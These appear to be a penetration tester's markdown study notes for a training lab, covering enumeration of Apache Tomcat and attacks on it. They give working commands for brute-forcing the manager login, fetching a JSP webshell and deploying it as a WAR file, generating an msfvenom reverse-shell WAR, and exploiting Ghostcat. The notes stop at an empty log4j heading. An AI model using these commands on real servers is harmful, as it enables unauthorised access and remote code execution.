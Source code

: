 # Tomcat - Discovery & Enumeration
## Discovery/Footprinting
```
curl -s http://app-dev.inlanefreight.local:8080/docs/ | grep Tomcat
```
## Enumeration
1. Look for the /manager and the /host-manager pages.
```
gobuster dir -u http://web01.inlanefreight.local:8180/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```

# Attacking Tomcat
if we can access the /manager or /host-manager endpoints, we can likely achieve remote code execution on the Tomcat server
## Tomcat Manager - Login Brute Force
### Metasploit
```
auxiliary/scanner/http/tomcat_mgr_login
```
Metasploit module (or another tool) is failing or not behaving the way we believe it should. We can always use Burp Suite or ZAP to proxy the traffic and troubleshoot. To do this, first, fire up Burp Suite and then set the PROXIES option like the following:
1. set PROXIES HTTP:127.0.0.1:8008
2. Check Burp

### Brute Force tool
https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce
```
python3 mgr_brute.py -U http://web01.inlanefreight.local:8180/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
```

## Tomcat Manager - WAR File Upload
Many Tomcat installations provide a GUI interface to manage the application. This interface is available at /manager/html by default, which only users assigned the manager-gui role are allowed to access. Valid manager credentials can be used to upload a packaged Tomcat application (.WAR file) and compromise the application.
1. Browse to http://web01.inlanefreight.local:8180/manager/html and enter the credentials
2. The manager web app allows us to instantly deploy new applications by uploading WAR files
	1. `wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp`
	2. `zip -r backup.war cmd.jsp`
3. Click on Browse to select the .war file and then click on Deploy
4. This file is uploaded to the manager GUI, after which the /backup application will be added to the table
```
curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id
```

### msfvenom
1. We could also use msfvenom to generate a malicious WAR file
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war
```
2. Start a Netcat listener and click on /backup to execute the shell
3. The `multi/http/tomcat_mgr_upload` Metasploit module can be used to automate the process shown above

### CVE-2020-1938 : Ghostcat
All Tomcat versions before 9.0.31, 8.5.51, and 7.0.100 were found vulnerable. This vulnerability was caused by a misconfiguration in the AJP protocol used by Tomcat.
1. The AJP service is usually running at port 8009 on a Tomcat server. This can be checked with a targeted Nmap scan.
2. Confirm that ports 8080 and 8009 are open
3. The exploit can only read files and folders within the web apps folder, which means that files like /etc/passwd can’t be accessed. Let’s attempt to access the web.xml
```
python2.7 tomcat-ajp.lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml
```
https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi

### Check for reverse proxy
if apache is being used as a reverse proxy with Java as backend service, then the host machine is vulnerable to a vulnerability that considers `/..;/` the parent directory

### Check for log4j vulnerability
